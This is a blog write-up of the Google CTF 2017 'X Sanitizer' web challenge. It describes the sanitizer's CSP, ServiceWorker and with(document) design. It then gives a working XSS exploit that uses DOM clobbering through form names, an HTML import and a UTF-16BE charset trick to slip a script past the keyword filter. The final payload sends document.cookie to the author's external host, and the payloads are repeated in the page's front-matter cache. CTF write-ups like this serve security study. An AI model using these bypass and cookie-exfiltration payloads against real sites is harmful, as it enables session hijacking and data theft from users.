 ```yaml
---
title: Google CTF 2017 – The X Sanitizer writeup
author: tyage
type: posts
date: 2017-06-25T15:57:35+00:00
url: /?p=990
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:2958:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">onload = _=&gt; setTimeout(_=&gt; parent.postMessage(document.body.innerHTML, location.origin), 1000);
    remove = node =&gt; (node == document) ? document.body.innerHTML = '' : node.parentNode.removeChild(node);
    document.addEventListener(&quot;securitypolicyviolation&quot;, e =&gt; remove(e.target));
    document.write('&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src \\'none\\'; script-src *&quot;&gt;&lt;body&gt;');</p></div>
    ";i:2;s:1070:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">with(document) remove(document === currentScript.ownerDocument ? currentScript : querySelector('link[rel=&quot;import&quot;]'));
    // &lt;script src=x&gt;&lt;/script&gt;</p></div>
    ";i:3;s:362:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</p></div>
    ";i:4;s:1204:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://sanitizer.web.ctfcompetition.com">https://sanitizer.web.ctfcompetition.com</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4">https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4</a></p>
<p>The application sanitize input and render it.</p>
<h2>Sanitizing method</h2>
<p>The method of sanitizing is follow:</p>
<p>1. Remove the words that match with <code><i>/meta|srcdoc|utf-16be/i</i></code> from input.<br />
2. Register a ServiceWorker then, render input in iframe<br />
3. In iframe, it load <code>&lt;script src=sanitize&gt;</code> which executes the following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>4. The code removes the node which violates CSP.<br />
5. To prevent loading the attacker&#8217;s script, ServiceWorker overrides the response of contents as following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table></div>

<p>6. This code remove currentScript or html import element.<br />
7. Now, <code>doument.body</code> returns an sanitized html!</p>
<h2>Evade from sanitization</h2>
<p>But wait, why google uses <code>with(document)</code> ? (It is deprecated.)<br />
Then, I thought I can disable the execution of <code>document.remove</code> by using the technique of <a href="https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/hotcows-dating">HotCows Dating</a></p>
<p>OK. Let&#8217;s input the html below and confirm that it is not sanitized.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
&lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table></div>

<h2>Execute payload</h2>
<p>But sadly, the content which html import load is overrode by ServiceWorker.</p>
<p>So some techniques are needed to execute attacker&#8217;s script.</p>
<p>Soon, I realized that we can import the url: <code>/sanitize?html=URL_ENCODED_HTML</code>.<br />
And <code>URL_ENCODED_HTML</code> can be a string that is not matched with <code><i>/meta|srcdoc|utf-16be/i</i></code> (e.g. <code><%6deta></code>).</p>
<p>Next, we use <code>utf-16be</code> to execute our payload.</p>
<p>Here is useful link: <a href="http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html">http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html</a></p>
<p><code>/sandbox?html=%00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</code> returns <code><i>&lt;!doctype HTML&gt;\n&lt;script src=sanitize&gt;\n&lt;/script&gt;\n&lt;body&gt;\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</i></code>.</p>
<p>When charset is <code>utf-16be</code>, it is interpreted as <code><i>㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社=alert(1)</i></code></p>
<p>OK, now we can get flag in cookie!</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
&lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<p>flag is: <code>CTF{no-problem-this-can-be-fixed-by-adding-a-single-if}</code></p>
